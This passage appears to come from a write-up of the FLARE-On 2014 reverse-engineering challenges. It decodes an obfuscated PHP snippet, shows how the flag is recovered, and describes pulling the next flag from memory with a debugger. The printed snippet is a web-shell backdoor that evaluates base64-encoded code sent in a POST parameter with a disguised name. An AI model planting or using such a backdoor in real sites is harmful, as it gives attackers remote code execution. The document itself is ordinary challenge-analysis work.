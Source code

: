 {% endcodeblock %}

So it must decode the first base64 blob and eval it. Let's decode it:

{% codeblock lang:php %}

if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) 
{ 
eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); 
}

{% endcodeblock %}

This looks like a POST request. The characters look like a mix of ASCII and Hex values. Let's print them using Python and hope this is the last encoding:

{% codeblock lang:python %}

mylist= [97,49,49,68,0x4F,84,116,0x68,97,0x74,0x44,0x4F,0x54,0x6A,97,0x76,0x61,0x35,0x63,0x72,97,0x70,0x41,84,0x66,0x6C,97,0x72,0x65,0x44,65,0x53,72,111,110,68,79,84,99,0x6F,0x6D]

print ''.join( chr(item) for item in mylist)

{% endcodeblock %}

Fortunately, we are done.

{% codeblock Flag 2 %}
a11DOTthatDOTjava5crapATflareDASHonDOTcom
or
a11.that.java5crap@flare-on.com
{% endcodeblock %}

---

## <a name="ch3"></a> Challenge 3 - Cheating My Way to the Top

```
Nice job, you're really knocking these out! Here's the next binary. The password to the zip archive is "malware" again.
Keep up the good work, and good luck!
-FLARE
```

Challenge 3 is a Win32 binary called ``such_evil``. ``PE-Studio`` does not tell us much.

Running it will result in this message:

![BrokenByte](/images/2014/flare/3-1.jpg "BrokenByte")

I cheated in this challenge. I just dropped the executable in ``Immunity Debugger``, ran it and looked in memory when the message box popped up and the email was there:

![Flag in memory](/images/2014/flare/3-2.jpg "Flag in memory")
